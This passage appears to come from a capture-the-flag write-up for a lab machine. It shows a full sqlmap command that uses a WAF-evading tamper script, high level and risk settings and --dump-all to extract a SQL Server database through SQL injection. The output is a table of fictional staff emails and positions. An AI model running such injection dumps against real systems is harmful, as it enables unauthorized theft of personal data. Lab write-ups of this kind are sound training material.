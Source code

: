
I could next list the tables, but I actually went the more “nuke it from
space” route, and ran `--dump-all` and `--exclude-sysdbs`:

    
    
    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dump-all --exclude-sysdbs
    ...[snip]...
    [18:51:58] [INFO] the back-end DBMS is Microsoft SQL Server
    back-end DBMS: Microsoft SQL Server 2017                   
    [18:51:58] [INFO] sqlmap will dump entries of all tables from all databases now
    [18:51:58] [INFO] fetching database names                  
    [18:52:08] [INFO] fetching tables for databases: Hub_DB, master, model, msdb, tempdb
    [18:52:08] [INFO] skipping system database 'master'
    [18:52:08] [INFO] skipping system database 'model'
    [18:52:08] [INFO] skipping system database 'msdb'
    [18:52:08] [INFO] skipping system database 'tempdb'
    [18:52:08] [INFO] fetching columns for table 'Colleagues' in database 'Hub_DB'
    [18:52:18] [INFO] fetching entries for table 'Colleagues' in database 'Hub_DB'
    Database: Hub_DB                                           
    Table: Colleagues                                          
    [17 entries]                                               
    +------+----------------------+-------------+----------------------+----------------------+
    | id   | email                | image       | name                 | position             |
    +------+----------------------+-------------+----------------------+----------------------+
    | 1    | sbauer@megacorp.htb  | sbauer.jpg  | Sarina Bauer         | Junior Developer     |
    | 2    | okent@megacorp.htb   | okent.jpg   | Octavia Kent         | Senior Consultant    |
    | 3    | ckane@megacorp.htb   | ckane.jpg   | Christian Kane       | Assistant Manager    |
    | 4    | kpage@megacorp.htb   | kpage.jpg   | Kimberly Page        | Financial Analyst    |
    | 5    | shayna@megacorp.htb  | shayna.jpg  | Shayna Stafford      | HR Manager           |
    | 6    | james@megacorp.htb   | james.jpg   | James Houston        | QA Lead              |
    | 7    | cyork@megacorp.htb   | cyork.jpg   | Connor York          | Web Developer        |
    | 8    | rmartin@megacorp.htb | rmartin.jpg | Reya Martin          | Tech Support         |
    | 9    | zac@magacorp.htb     | zac.jpg     | Zac Curtis           | Junior Analyst       |
    | 10   | jorden@megacorp.htb  | jorden.jpg  | Jorden Mclean        | Full-Stack Developer |
    | 11   | alyx@megacorp.htb    | alyx.jpg    | Alyx Walters         | Automation Engineer  |
    | 12   | ilee@megacorp.htb    | ilee.jpg    | Ian Lee              | Internal Auditor     |
    | 13   | nbourne@megacorp.htb | nbourne.jpg | Nikola Bourne        | Head of Accounts     |
    | 14   | zpowers@megacorp.htb | zpowers.jpg | Zachery Powers       | Credit Analyst       |
    | 15   | aldom@megacorp.htb   | aldom.jpg   | Alessandro Dominguez | Senior Web Developer |
    | 16   | minato@megacorp.htb  | minato.jpg  | MinatoTW             | CEO                  |
    | 17   | egre55@megacorp.htb  | egre55.jpg  | egre55               | CEO                  |
    +------+----------------------+-------------+----------------------+----------------------+
    